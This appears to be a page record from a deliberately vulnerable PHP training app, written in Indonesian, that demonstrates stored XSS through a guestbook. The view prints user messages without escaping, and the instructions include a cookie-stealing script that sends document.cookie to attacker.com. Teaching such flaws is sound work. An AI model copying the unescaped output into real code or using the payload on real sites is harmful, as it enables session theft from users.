
/modules/xss/stored.php (signed in), run on the app's committed database.
### tables this page shows
CREATE TABLE IF NOT EXISTS `guestbook` (
    `id` int(11) NOT NULL AUTO_INCREMENT,
    `name` varchar(50) NOT NULL,
    `message` text NOT NULL,
    `created_at` timestamp DEFAULT CURRENT_TIMESTAMP,
    PRIMARY KEY (`id`)
);

### modules/xss/stored.php (the view, shortened to what this page needs)
<?php
include '../../db.php';
$conn->query("CREATE TABLE IF NOT EXISTS guestbook (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(50),
    message TEXT,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
)");
include '../../includes/header.php';
?>
<div class="card">
    <div class="module-header" style="background: linear-gradient(135deg, #f59e0b, #d97706);">
        <h1>📢 Stored XSS (Guestbook)</h1>
        <p>XSS Tipe 2: Script berbahaya <strong>tersimpan permanen</strong> di database server.</p>
    </div>
    <div class="alert alert-info">
        <strong>📚 Langkah Percobaan:</strong>
        <ol style="margin-left: 1.5rem; margin-top: 0.5rem;">
            <li>Tulis pesan biasa: "Halo dunia".</li>
            <li>Tulis script: <code>&lt;script&gt;alert('Hacked')&lt;/script&gt;</code> dan Kirim.</li>
            <li>Setiap kali halaman ini direfresh atau dibuka user lain, alert akan muncul.</li>
            <li>Bayangkan jika scriptnya mencuri Cookies: <code>&lt;script&gt;window.location='http://attacker.com?cookie='+document.cookie&lt;/script&gt;</code>.</li>
        </ol>
        <a href="stored.php?clear=1" class="btn btn-sm btn-secondary" style="margin-top:0.5rem;">🗑️ Bersihkan Guestbook</a>
    </div>
    <div class="grid-2">
        <div>
            <h3>✍️ Tulis Pesan</h3>
            <form method="POST">
                <textarea name="message" placeholder="Tulis sesuatu..." rows="4" required style="width:100%"></textarea>
                <button type="submit" class="btn">Kirim Pesan</button>
            </form>
        </div>
        <div style="max-height: 400px; overflow-y: auto; background: #fff; padding: 1rem; border: 1px solid #ddd;">
            <h3>💬 Komentar Terbaru</h3>
            <?php
            $result = $conn->query("SELECT * FROM guestbook ORDER BY id DESC");
            while ($row = $result->fetch_assoc()) {
                echo "<div style='border-bottom:1px solid #eee; padding: 0.5rem 0;'>";
                echo "<strong>" . htmlspecialchars($row['name']) . ":</strong><br>";
                echo $row['message'];
                echo "<br><small style='color:gray'>" . $row['created_at'] . "</small>";
                echo "</div>";
            }
            ?>
        </div>
    </div>
</div>
<?php include '../../includes/footer.php'; ?>

### assets/css/style.css (style rules this page uses)
:root { --primary: #4f46e5; --primary-hover: #4338ca; --secondary: #64748b; --background: #f8fafc; --surface: #ffffff; --text: #0f172a; --text-muted: #64748b; --border: #e2e8f0; --success: #10b981; --danger: #ef4444; --warning: #f59e0b; --radius: 8px; --sidebar-width: 260px; --sidebar-bg: #1e293b; --sidebar-text: #f1f5f9; }
* { box-sizing: border-box; margin: 0; padding: 0; }
body { font-family: 'Inter', system-ui, sans-serif; background-color: var(--background); color: var(--text); line-height: 1.6; display: flex; min-height: 100vh; }
.card { background: var(--surface); border-radius: var(--radius); padding: 1.5rem; box-shadow: 0 1px 3px rgba(0,0,0,0.1); margin-bottom: 1.5rem; border: 1px solid var(--border); }
.btn { display: inline-block; padding: 0.75rem 1.5rem; background-color: var(--primary); color: white; text-decoration: none; border-radius: var(--radius); font-weight: 500; border: none; cursor: pointer; transition: background 0.2s; }
.btn-secondary { background-color: var(--secondary); }
input, textarea, select { width: 100%; padding: 0.75rem; margin-bottom: 1rem; border: 1px solid var(--border); border-radius: var(--radius); background: var(--background); color: var(--text); }
h1, h2, h3, h4 { margin-bottom: 1rem; color: var(--text); }
.alert { padding: 1rem; border-radius: var(--radius); margin-bottom: 1rem; border-left: 4px solid; }
.alert-info { background: #eff6ff; border-color: var(--primary); color: #1e40af; }
code { font-family: monospace; background: rgba(0,0,0,0.05); padding: 0.2rem 0.4rem; border-radius: 4px; color: var(--primary); }

### data on the page
guestbook: name "Siti", message "Belajar keamanan web ternyata seru ya.", created_at "2025-12-29 11:42:38"
guestbook: name "Budi", message "Halo, website ini sangat bermanfaat!", created_at "2025-12-29 11:42:38"

### other printed values
substr($_SESSION['username'] ?? 'G', 0, 1) "A"
$_SESSION['username'] "admin"
$_SESSION['role'] "admin"
